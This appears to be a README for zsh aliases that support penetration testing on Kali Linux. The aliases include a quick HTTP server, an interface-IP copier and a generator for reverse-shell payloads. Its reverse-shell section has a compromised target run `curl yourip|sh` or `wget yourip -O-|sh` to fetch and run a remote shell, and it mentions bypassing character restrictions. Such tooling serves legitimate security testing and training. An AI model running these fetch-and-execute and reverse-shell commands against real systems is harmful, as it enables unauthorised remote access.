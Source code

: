 `echo "source ~/zsh-aliases/aliases.zsh" >> ~/.zshrc`
`source ~/.zshrc`

### > www

Python3 server
Example:
```
┌──(nosferatu㉿kali)-[~/Documents/tools/]
└─$ www
[eth0] 192.168.172.128
[/home/Documents/tools]
linpeas.sh  pspy64
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
> #### Notes
> - Sudo is used to ensure being able to listen on port 80

### > tun0

Copies the IP addres of the tun0 interface to the clipboard. 
Example: 
```
┌──(nosferatu㉿kali)-[~/]
└─$ tun0 
```
Clipboard contents after:
```
10.0.4.108
```

### > mkdir_cd
Often when making a directory I want to directly `cd` into it after. This does exactly that.  
Example: 
```
┌──(nosferatu㉿kali)-[~/]
└─$ mkdir_cd teste

┌──(jazz㉿kali)-[~/pepega]
└─$ 
```

## Reverse shells
### > gen_lin_rev $ip $port 
Based on [RSaaS](https://github.com/lukechilds/reverse-shell). Creates a file called `index.html` in the current directory. This file contains multiple reverse shell payloads that will be attempted in sequence until one works. Can be used with `www` to make spawning a reverse shell after gaining RCE extremely easy and fast. Just make the target execute `curl yourip|sh` and it will retrieve the reverse shell payload from your webserver and -hopefully- connect back to your listener. 
Example: 
```
┌──(nosferatu㉿kali)-[~]
└─$ gen_lin_rev 127.0.0.1 1337
[+] Wrote Linux reverse shells to /home/nosferatu/index.html
```
> #### Notes
> - I really like how the `curl yourip|sh` payload doesn't really have any badchars besides possibly the space and the pipe. When spaces form an issue there are [ways around this](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#bypass-forbidden-spaces) and the pipe can be bypassed by just downloading and executing separately.
> - If curl is not installed on the remote machine you can try `wget yourip -O-|sh`
 
